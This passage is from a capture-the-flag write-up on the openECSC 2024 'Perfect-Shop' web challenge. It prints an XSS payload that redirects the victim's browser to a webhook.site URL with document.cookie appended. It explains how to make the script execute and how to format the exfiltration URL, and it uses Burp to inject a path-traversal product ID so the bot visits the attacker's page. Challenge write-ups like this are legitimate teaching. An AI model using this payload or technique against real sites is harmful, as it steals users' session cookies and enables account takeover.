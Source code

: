To successfully exfiltrate a user's cookies on the website, you need an endpoint reachable by the victim, which means exposing a server to make it accessible to anyone.

[Webhooks](https://en.wikipedia.org/wiki/Webhook) are... versatile things. For this challenge, a website like [webhook.site](https://webhook.site/) allows using them as if you were using your own server exposed to the outside world.

For a test, you can use a payload like this: `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`

In this type of payload, it's important not to use a random HTML tag, but to ensure that JavaScript code is actually executed (it's okay to insert the webhook URL concatenated with `document.cookie` inside an `onerror`, but not in a simple `src`) so that `document.cookie` is "reachable".

Also, you need to append the cookies as query parameters (for webhook and personal server) or as a path (for a personal server only). Failing to do so means appending the cookies as part of the host, which means the request will never reach the desired destination. For example, instead of ending up at `myhost.com`, it would end up at `myhost.comCOOKIENAME=COOKIEVALUE`, which makes no sense, unlike `myhost.com?c=COOKIENAME=COOKIEVALUE` or `myhost.com/COOKIENAME=COOKIEVALUE` (which doesn't make sense with `webhook.site`, unless you own that domain).

Executing the payload above by sending it to the search page yields the following result on webhook.site:

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/FirstWebhook.png" alt="Example webhook result">
There are the cookies!

#### Second step: Cookie stealing on the bot
Perhaps it would have made more sense to find a valid payload with the character filter first, but during the competition, I was a bit panicked and wanted to make sure I could steal the bot's cookies without problems. Unfounded fear, as there was no kind of control in this regard, and the value of [`httpOnly`](https://owasp.org/www-community/HttpOnly) for the `flag` cookie wasn't specified, which means it will be set to the default value of `false`.

*What does this mean?* For security reasons, the optional `httpOnly` flag was introduced for cookies, which if set to `true`, prevents JavaScript code in the document from accessing `document.cookie`, mitigating exactly the type of attack I'm about to perform.

But first, let's delve into the bot's operation and the related report page.

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/NetworkReport.png" alt="Inspection of a POST request to the reporting endpoint">
All fine, here's the ID and the message. Checking the logs, which appear on the terminal from which the `docker compose` was launched, it's also possible to verify which page was visited by the bot:

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/BotVisitsProduct.png" alt="Example of logs indicating that the bot visited the page related to the reported product">
And if, for no reason, you wanted to send an ID different from those prefixed by the `select` proposed by the developer? In this case, it's very useful to modify the request with Burp Suite or similar tools. Unfortunately, I don't have the time to show you how to set up Burp on your trusted browser ([this](https://www.youtube.com/watch?v=Vn_Zst6BMGo) tutorial may be helpful) or to show you the process to solve the challenge without using similar tools.

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/vid/BurpIDmodif.gif" alt="Modifying the product ID with Burp">
What I did was change the value of `id` from `1` to `1/../../search?q=Incredible` before it was sent to the server and consequently to the bot. To clarify, I would have achieved the same result if I had done this:
